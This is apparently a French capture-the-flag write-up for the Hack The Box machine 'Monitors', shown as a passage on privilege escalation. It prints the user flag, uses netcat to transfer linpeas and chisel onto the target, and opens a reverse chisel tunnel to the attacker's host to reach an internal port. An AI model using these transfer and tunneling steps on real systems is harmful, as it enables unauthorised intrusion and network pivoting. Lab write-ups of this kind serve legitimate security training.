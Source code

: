 # Root
Avec celui-ci, on se connecte au ssh de marcus:
``` 
┌──(kali㉿kali)-[~]
└─$ ssh marcus@monitors.htb    
marcus@monitors:~$
```
On obtient au passage le flag utilisateur:
```
marcus@monitors:~$ cat user.txt 
5bb7d47702797743d59aa6384da443ea
```

## linpeas.sh
On cherche maintenant à faire une escalade de privilège jusqu'à ``root``, pour se faire, on va utiliser ``linpeas.sh`` pour lister les informations intéressantes.

Ni curl ni wget ne sont disponible, donc on ne va pas passer par http pour envoyé des fichier mais utiliser netcat car lui est disponible:

```
# Cible:
$ nc -l -p 1234 > linpeas.sh
nc -l -p 1234 > linpeas.sh
```
```
# Kali:
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ nc -w 3 10.10.10.238 1234 < linpeas.sh
```
On execute linpeas:
```
$ chmod +x linpeas.sh
chmod +x linpeas.sh
$ ./linpeas.sh
```
Linpeas nous montre les ports utilisés en local:
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                               
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
## Tunnel (Chisel)
Le service ``127.0.0.1:8443`` retient mon attention,
on va alors setup un proxy pour pouvoir acceder au reseau local:
```
marcus@monitors:~$ nc -l -p 1234 > chisel
marcus@monitors:~$ chmod +x chisel
marcus@monitors:~$ ./chisel client 10.10.14.5:8000 R:8443:127.0.0.1:1080
```